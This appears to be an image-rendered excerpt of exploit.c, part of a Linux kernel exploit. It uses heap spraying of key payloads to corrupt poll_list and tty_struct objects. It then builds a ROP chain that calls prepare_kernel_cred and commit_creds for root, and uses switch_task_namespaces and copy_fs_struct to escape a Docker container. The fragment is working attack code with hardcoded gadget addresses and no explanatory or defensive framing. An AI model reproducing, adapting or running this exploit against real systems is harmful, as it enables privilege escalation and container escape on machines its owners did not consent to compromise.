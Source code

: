 ```exploit.c
     _alloc_key_prefill_ulong_val = km1024_leaked - 0x18; // 0x18 is offset where `user_key_payload` can modify from

    for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
      alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_ulong);
    }
  }

  puts("[+] waiting corrupted `poll_list` is freed...");
  neverend = 0;
  for(int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    pthread_join(threads[ix], NULL);
  }

  // Free all keys
  for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
    free_key(keys[ix]);
  }
  puts("[+] waiting all keys are freed by GC...");
  sleep(1); // wait GC(security/keys/gc.c) actually frees keys

  // Spray keys in `kmalloc-1024`, one of which must be placed on `tty_struct`
  puts("[+] spraying keys in kmalloc-1024");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(0x1000);
    ulong *buf = (ulong*)key_payload;
    buf[0] = 0x5401; // magic, kref (later `leave`ed and become RBP)
    buf[1] = KADDR(0xffffffff8191515a); // dev (later become ret addr of `leave` gadget, which is `pop rsp`)
    buf[2] = km1024_leaked + 0x50 + 0x120; // driver (MUST BE VALID) (later `pop rsp`ed)
    buf[3] = km1024_leaked + 0x50; // ops

    ulong *ops = (ulong*)(key_payload + 0x50);
    for (int ix = 0; ix != 0x120 / 8; ++ix) { // sizeof tty_operations
      ops[ix] = KADDR(0xffffffff81577609); // pop rsp
    }

    ulong *rop = (ulong*)((char*)ops + 0x120);
    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = 0;
    *rop++ = KADDR(0xffffffff810ebc90); // prepare_kernel_cred

    *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
    *rop ++ = 0;
    *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
    *rop++ = KADDR(0xffffffff810eba40); // commit_creds

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = 1; // init process in docker container
    *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid
    *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
    *rop ++ = 0;
    *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
    *rop++ = KADDR(0xffffffff819b21d3); // pop rsi
    *rop++ = KADDR(0xffffffff8245a720); // &init_nsproxy
    *rop++ = KADDR(0xffffffff810ea4e0); // switch_task_namespaces

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = KADDR(0xffffffff82589740); // &init_fs
    *rop++ = KADDR(0xffffffff812e7350); // copy_fs_struct
```